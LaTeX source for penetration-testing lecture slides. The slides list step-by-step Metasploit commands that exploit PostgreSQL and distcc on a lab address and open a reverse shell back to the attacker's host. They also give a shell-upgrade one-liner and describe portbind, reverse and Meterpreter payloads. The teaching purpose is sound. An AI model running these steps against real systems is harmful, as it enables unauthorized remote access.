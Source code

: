 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
\frametitle{Exploitation (2/3)}

One example:

\begin{enumerate}
    \item \texttt{msf5 > use exploit/linux/postgresql/postgresql\char`\_payload}
    \item \texttt{msf5 > show payloads}
    \item \texttt{msf5 > set payload linux/x86/shell/reverse\char`\_tcp}
    \item \texttt{msf5 > show options}
    \item \texttt{msf5 > set RHOST 192.168.56.101}
    \item \texttt{msf5 > set LHOST 192.168.56.1}
    \item \texttt{msf5 > show targets}
    \item \texttt{msf5 > set TARGET 0}
    \item \texttt{msf5 > run}
\end{enumerate}

\textit{Get interactive shell with} \texttt{python -c \textquotesingle import pty; pty.spawn("/bin/bash")\textquotesingle}\\

\end{frame}

\begin{frame}
\frametitle{Exploitation (3/3)}

Another example:

\begin{enumerate}
    \item \texttt{msf5 > use exploit/unix/misc/distcc\char`\_exec}
    \item \texttt{msf5 > run}
\end{enumerate}

\end{frame}

\begin{frame}
\frametitle{Post Exploitation}

There are three types of payloads:

\begin{itemize}
    \item Portbind: it opens a port in the target and then we can connect to such port. This is generally prevented by firewalls at the target. Generally, we obtain shell access after connecting to the target port.
    \item Reverse shell: it open a port in our attacking system, then the target connects to our system. Generrally, we obtain shell access.
    \item Meterpreter: it opens a port in our attacking system, then the target connects to our system. In this case we do not obtain shell access, we obtain a Meterpreter session, which includes additional commands.
\end{itemize}

\end{frame}
\end{document}
